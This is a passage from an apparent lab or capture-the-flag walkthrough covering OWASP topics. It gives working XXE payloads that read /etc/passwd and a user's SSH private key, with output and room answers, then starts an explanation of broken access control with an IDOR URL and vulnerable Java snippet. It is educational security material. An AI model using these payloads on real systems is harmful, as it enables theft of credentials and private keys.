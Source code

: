 - See if you can read the `/etc/passwd`

```
<!DOCTYPE root [
<!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
...
root:x:0:0:root:/root:/bin/bash
...
```

- What is the name of the user in `/etc/passwd` [`falcon`]
  - The only user with `/bin/bash` in `/etc/passwd` that isn't `root`

```
...
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
...
```

- Where is falcon's SSH key located? [`/home/falcon/.ssh/id_rsa`]
- What are the first 18 characters for falcon's private key [`MIIEogIBAAKCAQEA7`]

```
<!DOCTYPE root [
<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>
]>
<root>&read;</root>
...
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA7...
...
```

## Broken Access Control

Some apps will have controls in place that allow only an admin or user to visit a certain page versus anyone else. Sometimes, configuration is broken or can be exploited to gain access to pages you aren't able to normally see, which means sensitive info can be leaked or certain operations can be run.

OWASP has a couple of examples:

1. The application uses unverified data in a SQL call that is accessing account information. In this case, an attacker can simply change the `acct` parameter to an admin account to see their info (i.e. `http://example.com/app/accountInfo?acct=notmyacct`)

```
pstmt.setString(1, request.getParameter("acct"));
ResultSet results = pstmt.executeQuery( );
```

2. An attacker simply force browses to target URLs. Admin rights are required for access to the admin page. If an unauthenticated user can access either of the pages below, or if a non-admin authenticated user can access the admin page, then there is a flaw.
